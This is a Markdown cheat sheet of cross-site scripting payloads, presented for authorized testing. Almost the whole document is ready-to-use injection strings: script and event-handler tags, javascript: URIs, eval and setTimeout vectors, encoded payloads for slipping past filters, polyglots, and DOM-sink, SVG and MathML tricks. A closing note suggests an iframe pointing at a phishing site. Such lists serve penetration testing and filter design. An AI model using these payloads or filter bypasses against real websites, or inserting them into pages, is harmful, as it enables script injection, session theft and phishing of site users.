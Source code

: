 # XSS Payload Cheat Sheet

This cheat sheet includes a wide range of XSS payloads for testing and exploiting XSS vulnerabilities in web applications. **Note:** These payloads are intended for educational and authorized testing purposes only.

---

## Contents

- [Basic XSS Payloads](#basic-xss-payloads)
- [Event Handler XSS Payloads](#event-handler-xss-payloads)
- [Attribute-Based XSS Payloads](#attribute-based-xss-payloads)
- [JavaScript XSS Payloads](#javascript-xss-payloads)
- [Bypassing Common Filters](#bypassing-common-filters)
- [Polyglot XSS Payloads](#polyglot-xss-payloads)
- [DOM-Based XSS Payloads](#dom-based-xss-payloads)
- [Advanced XSS Techniques](#advanced-xss-techniques)

---

## Basic XSS Payloads

Injecting basic payloads into vulnerable fields can trigger XSS in unfiltered or weakly-filtered contexts.

```html
<script>alert('XSS')</script>
<svg/onload=alert('XSS')>
<iframe src="javascript:alert('XSS');"></iframe>
<img src=x onerror=alert('XSS')>
<video><source onerror="javascript:alert('XSS')"></video>
```

---

## Event Handler XSS Payloads

Event handlers can be leveraged for XSS when they’re unescaped within attributes.

```html
<body onload=alert('XSS')>
<div onclick="alert('XSS')">Click me</div>
<input type="text" onfocus="alert('XSS')" autofocus>
<svg onload="alert('XSS')"></svg>
<button onmouseover="alert('XSS')">Hover me</button>
```

---

## Attribute-Based XSS Payloads

Using vulnerable attributes can trigger XSS when dynamic data isn’t properly sanitized.

```html
<input value="X" onmouseover="alert('XSS')">
<form action="javascript:alert('XSS')">
<embed src="javascript:alert('XSS');">
<object data="javascript:alert('XSS');"></object>
<a href="javascript:alert('XSS')">Click me</a>
```

---

## JavaScript XSS Payloads

Direct JavaScript injection can exploit `eval()`, `setTimeout()`, `setInterval()`, and other functions prone to XSS.

```javascript
"><script>alert('XSS')</script>
" onerror="alert('XSS')
javascript:alert('XSS')
window['alert']('XSS')
document.write('<img src=x onerror=alert(1)>')
```

### Common JavaScript XSS Vectors

```javascript
// Using eval
eval("alert('XSS')")

// Using setTimeout
setTimeout("alert('XSS')", 1000)

// Using setInterval
setInterval("alert('XSS')", 1000)

// Using Function constructor
new Function("alert('XSS')")()
```

---

## Bypassing Common Filters

Encoding or obfuscation can bypass common XSS filters. Here are some payloads that use encoding:

```html
<script>%61lert('XSS')</script>
<script>window[%27al%27 + %27ert%27]('XSS')</script>
<img src='x' onerror='\u0061lert("XSS")'>
```

### Hexadecimal Encoding

```html
<script>alert(0x58)</script>
<svg/onload=%61lert(&#39;XSS&#39;)>
```

### HTML Entity Encoding

```html
<img src=x onerror=&Tab;alert('XSS')>
<script>&#x61;&#x6c;&#x65;&#x72;&#x74;(1)</script>
```

---

## Polyglot XSS Payloads

Polyglots are versatile payloads that work in multiple contexts and can bypass various filters.

```html
"><img src=x onerror=alert('XSS')>//<svg/onload=alert('XSS')>
<svg onload=alert(1)><script>alert(2)</script>
"><script>location='javascript:alert(`XSS`)'</script>
```

### Combined SVG & Script Polyglots

```html
"><svg onload=alert('XSS')><script>alert('XSS')</script>
<img src=x onerror="this.onerror=null;alert('XSS')">
```

---

## DOM-Based XSS Payloads

DOM-based XSS relies on vulnerable JavaScript handling within the DOM itself.

### Document Write Injection

```javascript
document.write("<img src=x onerror=alert('XSS')>");
```

### Location-Based Injection

```javascript
location.href = "javascript:alert('XSS')";
location.hash = "javascript:alert('XSS')";
window.location = "javascript:alert('XSS')";
```

### Element Injection via InnerHTML

```javascript
document.body.innerHTML = "<img src=x onerror=alert('XSS')>";
```

---

## Advanced XSS Techniques

More sophisticated techniques include chained XSS attacks and injecting into sensitive HTML tags like `<iframe>`, `<svg>`, and `<math>`.

### Chaining XSS Payloads

```html
"><script>alert('First');</script><script>alert('Second');</script>
```

### SVG XSS

```html
<svg><desc><![CDATA[</desc><script>alert('XSS')</script>]]></desc>
```

### MathML XSS

```html
<math><mtext><script>alert('XSS')</script></mtext></math>
```

---

## Additional Notes

- **Filter Bypasses**: Obfuscating payloads through Unicode, base64, or hex encoding can bypass certain weak filters.
- **Iframe Redirection**: For phishing simulations, iframes can redirect users to spoofed pages:
  ```html
  <iframe src="http://phishing.site"></iframe>
  ```
- **JavaScript URI Encoding**: Encoding payloads with `javascript:` URIs can bypass filters. Example: `<a href="javascript:alert('XSS')">Click me</a>`.

---

### License

This cheat sheet is open-sourced and can be used for ethical testing and research. Unauthorized or illegal testing is prohibited.

---
